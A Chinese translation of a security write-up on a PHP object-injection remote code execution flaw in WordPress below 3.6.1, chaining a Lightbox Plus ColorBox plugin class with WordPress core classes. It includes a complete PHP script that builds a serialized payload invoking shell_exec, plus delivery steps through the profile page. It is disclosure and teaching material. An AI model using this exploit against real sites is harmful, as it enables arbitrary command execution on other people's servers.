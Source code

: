 # WordPress 3.5.1远程代码执行EXP

from：[Remote Code Execution exploit in WordPress 3.5.1](http://vagosec.org/2013/12/wordpress-rce-exploit/)

（ps：老外也有几分标题党的意思，虽然是wordpress本身留下的坑，但是目前的利用还是需要安装的插件踩到了这个坑，才会被利用成功，并且要进入后台……感谢horseluke帮忙测试并翻译EXP与总结部分。）

0x00 背景
-------

* * *

之前，在[http://vagosec.org/2013/09/wordpress-php-object-injection/](http://vagosec.org/2013/09/wordpress-php-object-injection/)发表了WordPress中php对象注入的漏洞，那时候考虑到影响，没有讲解如何利用该漏洞，现在已经过去了三个月的时间，网站管理员应该都已经更新的WordPress，现在觉得可以公开了。

之前对这个漏洞不太了解的可以先看一下drops之前翻译的文章：

[WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)

0x01 如何寻找
---------

* * *

看完以前的那个文章之后，会发现有三种方法可能被利用

```
__destruct()
__wakeup()
__toString()

```

但是在WordPress本身的类当中没有找到可以成功利用的点。

但这是否意味着该漏洞不可利用呢，当然不是，WordPress最流行的功能就是允许安装插件和模板。这个是有第三方开发的，在写这篇文章时，WordPress列出了28358个插件，有超过5.6亿次的下载，这些插件有着各式各样的功能。包括有2155个主题，下载量超过八千六百万。

然后我就开始在最流行的插件当中寻找那些可以成功利用该漏洞的。

在寻找了几个插件之后，我终于找到一个插件的类中，在`__toString()`方法中是可利用的了。

这个插件就是**Lightbox plus ColorBox**。

0x02 分析详情
---------

* * *

**Lightbox plus ColorBox**插件的`/classes/shd.class.php`文件中的`simple_html_dom_node`类，其中代码如下：

```
class simple_html_dom_node {
    private $dom = null;

    function __toString() {
        return $this->outertext();
    }

    function outertext() {
        // …
        if ($this->dom && $this->dom->callback!==null) {
            call_user_func_array($this->dom->callback, array($this));
        }
        // … 
    }
}

```

熟悉PHP的朋友一看到call_user_func_array函数，就知道这是一个可能存在问题的点。

不熟悉PHP的可以来看下PHP手册[http://www.php.net/function.call-user-func-array](http://www.php.net/function.call-user-func-array)

为什么会对这个类的定义感兴趣呢？因为我们可以控制simple_html_dom_node对象的所有属性，我们可以设置dom属性为任意值，如果传入一个callback属性的话，有意思的事情就发生了。

利用`call_user_func_array`函数，我们可以调用任何函数，并且可以传递第一个参数进去。我不是PHP专家，没有发现利用办法，我又回过头看WordPress本身的代码，发现在`/wp-admin/includes/screen.php`文件中，这个文件定义了一个WP_Screen的类，当用user-meta数据被反序列化时，是被包含的，类的代码如下：

```
final class WP_Screen {
    private $_help_tabs = array();

    public function get_help_tabs() {
        return $this->_help_tabs;
    }

    public function render_screen_meta() {
        // …
        foreach ( $this->get_help_tabs() as $tab ):
            if ( ! empty( $tab['callback'] ) )
                call_user_func_array( $tab['callback'], array( $this, $tab ) );
        endforeach;
        // …
    }
}

```

就像我之前提到过的，我们能够调用任意的函数，这包括类当中的方法，能够调用WP_Screen对象中的render_screen_meta()方法，并且不需要传递任何参数，这个方法将会循环遍历_help_tabs属性中的所有元素，如果元素中的callback属性不为空，那么将会调用callback属性中的函数，传入的两个参数为：WP_Screen对象和$tab(_help_tabs属性的其中一个元素)。

这样我们有了更多的控制，可以选择那些函数被调用，并且可以控制，但是我们可能需要更加努力些，因为我们没有完全控制参数，看一下WordPress中的核心代码位于`/wp-includes/category-template.php`文件中：

```
function wp_generate_tag_cloud( $tags, $args = '' ) {
    // …
    $args = wp_parse_args( $args, $defaults );
    extract( $args );
    // …
    foreach ( (array) $tags as $key => $tag ) {
        $real_counts[ $key ] = $tag->count;
        $counts[ $key ] = $topic_count_scale_callback($tag->count);
    }
    // …
}

```

关于extract函数的手册说明：[http://www.php.net/function.extract](http://www.php.net/function.extract)

wp_generate_tag_cloud()函数接受两个参数$tags和$args，$args经过wp_parse_args函数的处理，该函数的作用是把$args数组与默认的一组$deafults合并，之后经过extract函数生产一些变量，其中一个是$topic_count_scale_callback变量。之后，该变量被调用传入一个参数，好消息就是我们能够完全控制这个变量。第一个参数，WP_Screen对象被转化为数组，当一个对象被强制转化为数组的时候，其中的属性最为关键：

```
<?php
class Swag {
    public $yolo = 'yolo';
}
$swag = new Swag;
var_dump((array)$swag);
?>

```

输出结果为：

```
array(1) {
  ["yolo"]=>
  string(4) "yolo"
}

```

现在我们需要的就是WP_Screen对象中的一个属性有一个count属性。

这是个很容易解决的问题，因为我们可以让所有的属性反序列化一遍。

这就意味着我们能够调用任何不带参数的函数，并完全控制它。

0x03 EXP
--------

* * *

根据以上分析，你应该可以构造一个属于自己的完美exploit了。不过先展示一下我的做法：

```
<?php
class simple_html_dom_node {
    private $dom;
    public function __construct() {
        $callback = array(new WP_Screen(), 'render_screen_meta');
        $this->dom = (object) array('callback' => $callback);
    }
}
class WP_Screen {
    private $_help_tabs;
    public $action;
    function __construct() {
        $count = array('count' => 'echo "schwag" > /tmp/1337h4x0rs');
        $this->action = (object) $count;
        $this->_help_tabs = array(array(
            'callback' => 'wp_generate_tag_cloud', 
            'topic_count_scale_callback' => 'shell_exec'));
    }
}
echo serialize(new simple_html_dom_node()).'{0xf09d8c86}';
?>

```

该脚本运行后将有一段输出内容，攻击者可将其作为用户元信息（user metadata）提交，此时shell_exec()函数将运行，参数为

```
echo "schwag" > /tmp/1337h4x0rs

```

要注意的是，输出内容存在NULL字节符，这是因为php在序列化一个对象时，会对私有属性以NULL字节符包围（[见PHP手册](http://php.net/manual/en/function.serialize.php#refsect1-function.serialize-returnvalues)）。WordPress中大部分用户元信息（user metadata）并不允许NULL字节符，除了在3.5.1版本中，有部分地方因为默认配置而被允许使用。

（译注：（1）由于存在NULL字符串，直接echo会有一部分payload看不到，建议进行rawurlencode再输出；（2）原作者使用shell_exec进行shell写入，会受到系统配置和权限影响而无法成功，如果仅是想复现漏洞，可替换为var_dump。若页面html输出中，出现WP_Screen::__construct()中$count变量所预先设置的字符串，则存在此漏洞。（3）在`wp-admin/profile.php`页面中修改更新个人资料【可以修改个人说明，实际上这里面的数据从数据库读取后都会判断是否为序列化后的数据，是的话都会反序列化一遍从而触发该漏洞】后，就可以看到效果了。）

0x04 总结
-------

* * *

本文以低于3.6.1版本的Wordpress为基础，展示一个php对象漏洞exploit例子。这个exploit需要利用近乎百万下载量的插件Lightbox Plus ColorBox中，其中一组类（simple html dom）所定义的逻辑；接着再组合利用WordPress核心中，另一些类和方法所定义的程序逻辑，我们就可以通过一段攻击者可控字符串执行任意函数，远程执行命令也就不在话下了。天啊不会吧！如果你还没更新WordPress，那现在可是个好时机了！

（译注：原作者说插件Lightbox Plus ColorBox中阐述的漏洞，似乎是将simple html dom的特性——模仿浏览器中dom.outerText操作——用成漏洞。另外在php开发中，该simple html dom组件类应用极广泛，主要用于html解析和提取、过滤文本。虽然说像文中这种利用需要碰运气，不过开发可以此例子思考：（1）如何不被攻击者将特性利用为漏洞通道？虽然这真的有些难（2）如何解决数据和执行混合导致的安全问题？虽然这似乎是终极问题之一了）